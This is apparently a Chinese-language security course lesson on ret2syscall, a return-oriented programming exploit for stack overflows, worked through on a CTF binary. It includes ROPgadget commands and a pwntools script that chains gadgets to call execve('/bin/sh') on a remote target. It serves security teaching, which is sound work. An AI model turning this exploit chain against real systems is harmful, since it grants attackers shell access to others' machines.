








# 护网行动红蓝攻防教程：P93：1.ret2syscall

## 概述

在本节课中，我们将要学习一种重要的二进制漏洞利用技术——**返回导向编程**。我们将从最简单的形式开始，即 **ret2syscall**。通过本节课，你将理解如何在没有现成后门函数或shellcode的情况下，通过组合程序自身已有的代码片段来执行系统调用，从而获取目标系统的shell。

---

## 什么是系统调用？

上一节我们介绍了通过覆盖返回地址来控制程序执行流。本节中我们来看看如何利用系统调用实现攻击。

系统调用是操作系统提供给用户程序操作硬件的接口。用户程序原则上不应直接接触硬件，所有硬件都由操作系统管理，并通过系统调用提供标准接口。

系统调用本质上是一些编程接口，可以被链接库封装成函数形式。在汇编层面，可以直接使用特定指令进行系统调用。

**系统调用的汇编实现（x86架构）**：
```assembly
mov eax, 0xb        ; 系统调用号（execve为11）
mov ebx, sh_addr    ; 第一个参数（字符串地址）
mov ecx, 0          ; 第二个参数
mov edx, 0          ; 第三个参数
int 0x80            ; 触发系统调用
```

这段汇编代码的效果等同于执行 `execve("/bin/sh", 0, 0)`。

---

## 动态链接库简介

要理解后续的攻击手法，我们需要了解动态链接库。

动态链接库是一些预先编译好的代码文件，存放在系统目录中。程序在运行时动态加载这些库，而不是在编译时将所有库代码打包进程序。

**查看程序依赖的动态链接库**：
```bash
ldd program_name
```

动态链接库通常以 `.so` 文件形式存在，并通过软链接指向具体版本。这样做的好处是库可以独立更新，而程序无需重新编译。

---

## 返回导向编程（ROP）核心思想

当程序中不存在连续的、能直接用于攻击的代码时，我们可以使用ROP技术。

ROP的核心思想是：**我们没有一段连续的可用代码，但我们可以利用程序中已有的、以 `ret` 指令结尾的小代码片段（gadget），通过精心构造栈数据，让这些片段像链条一样依次执行，最终达到攻击目的。**

一个典型的gadget格式为 `pop register; ret`。其作用是：
1.  将栈顶的值弹出到指定寄存器。
2.  通过 `ret` 指令，再将下一个栈顶值作为下一条指令地址弹出，实现gadget链的跳转。

---

## ret2syscall 攻击流程

以下是ret2syscall攻击的完整步骤：

1.  **寻找gadget**
    使用工具（如 `ROPgadget`）在二进制文件中搜索我们需要的gadget。对于执行 `execve("/bin/sh", 0, 0)`，我们需要：
    *   控制 `eax` 寄存器的gadget（用于设置系统调用号）。
    *   控制 `ebx`, `ecx`, `edx` 寄存器的gadget（用于设置参数）。
    *   `int 0x80` 指令的地址。

    **示例命令**：
    ```bash
    ROPgadget --binary vuln_program --only "pop|ret"
    ```

2.  **构造payload**
    payload的构造需要精确模拟栈的布局，以控制gadget的执行顺序和数据传递。

    **payload结构示例**：
    ```
    [垃圾数据填充到返回地址] +
    [pop_eax_ret地址] +
    [0xb (execve系统调用号)] +
    [pop_edx_ecx_ebx_ret地址] +
    [0 (edx值)] +
    [0 (ecx值)] +
    [/bin/sh字符串地址] +
    [int_0x80地址]
    ```

3.  **发送payload并获取shell**
    将构造好的payload发送给存在栈溢出漏洞的程序，触发gadget链执行，最终调用 `execve` 获取shell。





---

## 实战演示

我们以一道CTF题目为例，演示完整的ret2syscall攻击过程。

**步骤1：分析程序**
检查程序保护机制，发现栈不可执行（NX enabled），因此不能使用shellcode。程序是静态链接的，内部包含大量可用gadget。

**步骤2：计算偏移**
通过动态调试，确定输入缓冲区到返回地址的偏移为112字节。

**步骤3：搜索gadget**
使用ROPgadget搜索并找到所需gadget地址：
*   `pop eax; ret`
*   `pop edx; pop ecx; pop ebx; ret`
*   `int 0x80`



**步骤4：获取字符串地址**
在程序中找到 `/bin/sh` 字符串的地址。



**步骤5：编写利用脚本**
使用Python的pwntools库编写攻击脚本，构造并发送payload。

**示例脚本核心部分**：
```python
from pwn import *

context(arch='i386', os='linux')

p = remote('target_ip', target_port)
# p = process('./vuln_program')

offset = 112

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
bin_sh_addr = 0x80be408

payload = flat(
    b'A' * offset,
    pop_eax_ret,
    0xb,
    pop_edx_ecx_ebx_ret,
    0,
    0,
    bin_sh_addr,
    int_0x80
)



p.sendline(payload)
p.interactive()
```





**步骤6：执行攻击**
运行脚本，成功获取远程shell并读取flag。

---

## 总结

本节课中我们一起学习了 **ret2syscall** 攻击技术。我们了解到，当程序中没有直接的攻击代码时，可以通过ROP技术组合程序自身的gadget来执行系统调用。关键点包括：
1.  理解系统调用的原理和汇编实现。
2.  掌握ROP的核心思想：利用 `ret` 指令串联代码片段。
3.  学会使用工具搜索gadget。
4.  能够精确构造栈布局，形成有效的gadget执行链。
5.  完成一次完整的ret2syscall漏洞利用。



这项技术是后续学习更复杂ROP攻击（如ret2libc）的基础。请务必理解每一步的原理，并动手实践巩固知识。